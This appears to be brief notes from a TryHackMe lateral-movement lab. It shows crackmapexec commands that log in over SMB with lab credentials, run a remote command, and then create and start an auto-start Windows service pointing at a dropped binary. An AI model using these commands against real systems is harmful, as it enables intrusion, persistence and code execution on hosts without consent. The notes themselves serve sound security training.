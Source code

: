 Example of executing a command remotely...

```cmd
crackmapexec smb -u t1_leonard.summers -p EZpass4ever -x "pwd" thmiis.za.tryhackme.com
```

Create a service remotely through crackmapexec
```cmd
crackmapexec smb -u t1_leonard.summers -p EZpass4ever -x 'sc.exe create THMservice-n3rd binPath= "%windir%\myService1.exe" start= auto' thmiis.za.tryhackme.com
```

Start the service remotely through crackmapexec
```cmd
crackmapexec smb -u t1_leonard.summers -p EZpass4ever -x 'sc.exe start THMservice-n3rd' thmiis.za.tryhackme.com
```


